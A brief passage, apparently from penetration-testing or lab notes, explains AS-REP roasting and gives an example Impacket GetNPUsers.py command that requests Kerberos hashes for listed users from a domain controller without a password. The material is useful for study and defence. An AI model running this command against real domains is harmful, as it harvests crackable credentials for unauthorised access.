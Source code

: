 We are able to check if we can get kerb hashes for users via impackets `GetNPUsers` .

This will return kerberos hash for the users

Example Command 

`python3.9 /opt/impacket/examples/GetNPUsers.py <DOMAIN/> -dc-ip <IP> -no-pass -usersfile users.txt
`